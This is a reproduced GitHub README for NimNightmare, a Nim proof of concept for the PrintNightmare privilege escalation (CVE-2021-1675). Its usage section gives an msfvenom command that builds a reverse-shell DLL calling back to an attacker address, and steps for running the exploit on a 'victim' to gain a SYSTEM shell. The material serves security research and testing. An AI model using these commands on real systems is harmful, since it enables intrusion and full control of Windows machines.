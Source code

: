 # NimNightmare

CVE-2021-1675 LPE PoC in Nim (PrintNightmare Local Privilege Escalation)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/eversinc33](https://github.com/eversinc33) |
| Url      | [https://github.com/eversinc33/NimNightmare](https://github.com/eversinc33/NimNightmare)                                               |
| Stars    | 20                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2021-1675 LPE PoC

not my exploit! just wanted to play around with the `winim` library in nim.

### Usage

Generate DLL payload with `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.8.237 LPORT=4444 -f dll > msfvenom.dll`, then start the handler on your attacker.

On the victim run `.\nimnightmare.exe <ABSOLUTE_PATH_TO_DLL>` and get a shell as SYSTEM.

![](./img.png)


## Get the content

```
git clone https://github.com/eversinc33/NimNightmare
cd NimNightmare
```

{% embed url="https://github.com/eversinc33/NimNightmare" %}

<figure><img src="https://avatars.githubusercontent.com/u/51821028?v=4" alt=""><figcaption><p>eversinc33</p></figcaption></figure>
